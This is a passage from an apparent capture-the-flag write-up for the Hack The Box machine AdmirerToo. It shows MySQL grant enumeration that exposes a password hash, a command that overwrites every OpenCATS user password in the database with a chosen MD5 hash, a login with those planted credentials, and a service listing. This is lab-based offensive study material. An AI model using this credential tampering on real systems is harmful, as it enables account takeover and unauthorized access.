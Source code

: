 Enumerated user privileges ni MySQL:

```json
MariaDB [cats_dev]> show grants;
+-------------------------------------------------------------------------------------------------------------+
| Grants for cats@localhost                                                                                   |
+-------------------------------------------------------------------------------------------------------------+
| GRANT USAGE ON *.* TO `cats`@`localhost` IDENTIFIED BY PASSWORD '*6DB7C7C159FC2393785B54064E70FDB137F445B9' |
| GRANT ALL PRIVILEGES ON `cats_dev`.* TO `cats`@`localhost`                                                  |
+-------------------------------------------------------------------------------------------------------------+
2 rows in set (0.000 sec)
```

Updated every password (cracking hashes was not working):

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/B2R/AdmirerToo]
└─$ echo -n maoutis | md5sum
6f2ae4978075eae54f9491744818d28d  -
```

```bash
MariaDB [cats_dev]> update user set password="6f2ae4978075eae54f9491744818d28d";
```

Logged in to opencats using self injected credentials:

![Untitled]({{page.screenshots}}Untitled%2013.png)

### Enumerated other services

```bash
jennifer@admirertoo:/opt/opencats$ systemctl list-units --type=service
UNIT                               LOAD   ACTIVE SUB     DESCRIPTION
apache2.service                    loaded active running The Apache HTTP Server
apache2@opencats.service           loaded active running The Apache HTTP Server
apparmor.service                   loaded active exited  Load AppArmor profiles
console-setup.service              loaded active exited  Set console font and keymap
cron.service                       loaded active running Regular background program processing daemon
dbus.service                       loaded active running D-Bus System Message Bus
fail2ban.service                   loaded active running Fail2Ban Service
getty@tty1.service                 loaded active running Getty on tty1
hbase.service                      loaded active running HBase
ifup@eth0.service                  loaded active exited  ifup for eth0
ifupdown-pre.service               loaded active exited  Helper to synchronize boot up for ifupdown
keyboard-setup.service             loaded active exited  Set the console keyboard layout
kmod-static-nodes.service          loaded active exited  Create list of required static device nodes for the curren
mariadb.service                    loaded active running MariaDB 10.3.31 database server
networking.service                 loaded active exited  Raise network interfaces
nftables.service                   loaded active exited  nftables
open-vm-tools.service              loaded active running Service for virtual machines hosted on VMware
opentsdb.service                   loaded active running LSB: Starts OpenTSDB TSD
php7.3-fpm.service                 loaded active running The PHP 7.3 FastCGI Process Manager
rsyslog.service                    loaded active running System Logging Service
ssh.service                        loaded active running OpenBSD Secure Shell server
systemd-journal-flush.service      loaded active exited  Flush Journal to Persistent Storage
systemd-journald.service           loaded active running Journal Service
systemd-logind.service             loaded active running Login Service
```